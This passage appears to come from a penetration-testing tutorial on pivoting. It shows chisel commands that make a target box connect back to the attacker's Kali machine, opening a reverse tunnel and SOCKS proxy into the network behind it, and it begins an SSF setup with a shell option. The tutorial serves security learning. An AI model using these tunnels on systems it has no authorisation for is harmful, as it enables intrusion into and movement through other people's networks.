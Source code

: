 -   `./chisel server -p 8000 --reverse` on local box, as usual.
-   `./chisel client 1.1.1.1:8000 R:8001:127.0.0.1:9001` on target box.
    Now anything I send to localhost:8001 on kali will forward to
    localhost:9001 on target.
-   `./chisel server -p 9001 --socks5` on target. Now I have a `chisel`
    server listening on 9001, in socks mode, and a way to get traffic to
    that port.
-   `./chisel client localhost:8001 socks` on Kali box. This connection
    is forwarded through the first tunnel and connects to the `chisel`
    server running on the box. Now my local host is listening on port
    1080 (default, can change that with arguments) and will send traffic
    to target, and then proxy it outbound.

![](/img/chisel-3.png)

Now I can use `proxychains` or `FoxyProxy` to interact with the network
behind the target natually.

#### More Complex Examples

At this point, these tunnels can be used to create more complex setups.
For example, to go even more layers deep into a network, I can set up
listeners on the first hop that forward back to the `chisel` server on
kali, and then create new `chisel` reverse tunnels from there.

## SSF

### Prep

SSF is using an SSL encrypted communication channel and therefore I will
need certificates and keys. The easy way is to checkout the [GitHub
repository](https://github.com/securesocketfunneling/ssf) and use the
included `certs` subdirectory. Also I will use the pre-compiled binaries
provided and downloadable under Releases in GitHub.

The client directory will look like:



    $ find .
    .
    ./ssf
    ./certs
    ./certs/trusted
    ./certs/trusted/ca.crt
    ./certs/server.key
    ./certs/dh4096.pem
    ./certs/certificate.crt
    ./certs/private.key
    ./certs/server.crt



I'll also demonstrate the shell option, which is not on by default. To
do so, I will create following `config.json` in the same directory:
